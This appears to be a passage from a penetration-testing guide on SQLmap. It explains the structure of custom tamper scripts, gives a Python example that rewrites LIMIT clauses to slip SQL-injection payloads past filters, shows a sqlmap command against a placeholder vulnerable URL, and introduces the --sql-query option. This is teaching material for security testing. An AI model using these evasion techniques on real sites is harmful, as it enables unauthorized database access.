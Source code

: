 ### Custom Tamper Scripts

When creating a custom tamper script, there are a few things to keep in mind. The script architecture contains these mandatory variables and functions:

* `__priority__`: Defines the order in which tamper scripts are applied.  This sets how early or late SQLmap should apply your tamper script in the tamper pipeline. Normal priority is 0 and the highest is 100.
* `dependencies()`: This function gets called before the tamper script is used.
* `tamper(payload)`: The main function that modifies the payload.

The following code is an example of a tamper script that replace instances like '`LIMIT M, N`' with '`LIMIT N OFFSET M`' counterpart:

```py
import os
import re

from lib.core.common import singleTimeWarnMessage
from lib.core.enums import DBMS
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.HIGH

def dependencies():
    singleTimeWarnMessage("tamper script '%s' is only meant to be run against %s" % (os.path.basename(__file__).split(".")[0], DBMS.MYSQL))

def tamper(payload, **kwargs):
    retVal = payload

    match = re.search(r"(?i)LIMIT\s*(\d+),\s*(\d+)", payload or "")
    if match:
        retVal = retVal.replace(match.group(0), "LIMIT %s OFFSET %s" % (match.group(2), match.group(1)))

    return retVal
```

* Save it as something like: `mytamper.py`
* Place it inside SQLmap's `tamper/` directory, typically:

    ```ps1
    /usr/share/sqlmap/tamper/
    ```

* Use it with SQLmap

    ```ps1
    sqlmap -u "http://target.com/vuln.php?id=1" --tamper=mytamper
    ```

### Custom SQL Payload

The `--sql-query` option in SQLmap is used to manually run your own SQL query on a vulnerable database after SQLmap has confirmed the injection and gathered necessary access.
